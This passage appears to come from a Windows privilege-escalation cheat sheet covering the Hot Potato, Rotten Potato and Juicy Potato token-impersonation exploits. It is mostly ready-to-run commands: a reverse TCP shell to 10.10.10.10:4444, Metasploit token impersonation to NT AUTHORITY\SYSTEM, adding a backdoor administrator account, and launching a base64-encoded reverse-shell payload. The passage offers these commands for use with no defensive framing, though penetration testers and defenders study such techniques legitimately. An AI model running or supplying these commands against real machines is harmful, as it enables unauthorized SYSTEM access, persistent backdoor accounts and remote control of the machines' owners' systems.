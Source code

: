 #### Using Hot Potato

```powershell
# Using the original Potato exploit
.\potato.exe -ip 127.0.0.1 -cmd "C:\Windows\System32\cmd.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

# Using Empire's implementation
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
Import-Module .\Invoke-HotPotato.ps1
Invoke-HotPotato -Command "net user administrator P@ssw0rd123"
```

### Rotten Potato

Rotten Potato is an evolution of Hot Potato that focuses solely on the NTLM relay component. It exploits the DCOM (Distributed Component Object Model) service to force authentication and obtain a SYSTEM token.

#### Requirements for Rotten Potato

- SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege
- Works on Windows 8.1, 10, Server 2012, Server 2016

#### Using Rotten Potato

```powershell
# From a command prompt with appropriate privileges:
.\rottenpotato.exe

# From Metasploit (after getting a meterpreter shell):
load incognito
execute -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
```

### Juicy Potato

Juicy Potato is a further refinement that exploits the COM marshalling mechanism in Windows. It leverages the fact that some COM servers run as SYSTEM and allow for token impersonation.

#### Requirements for Juicy Potato

- SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege
- Windows versions before certain security patches (doesn't work on Windows Server 2019)

#### Using Juicy Potato

```cmd
# Basic usage to launch cmd.exe as SYSTEM
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}

# Creating a new admin user
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user hacker Password123 /add && net localgroup administrators hacker /add" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

# Getting a reverse shell
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c powershell -e <base64EncodedReverseShellCommand>" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
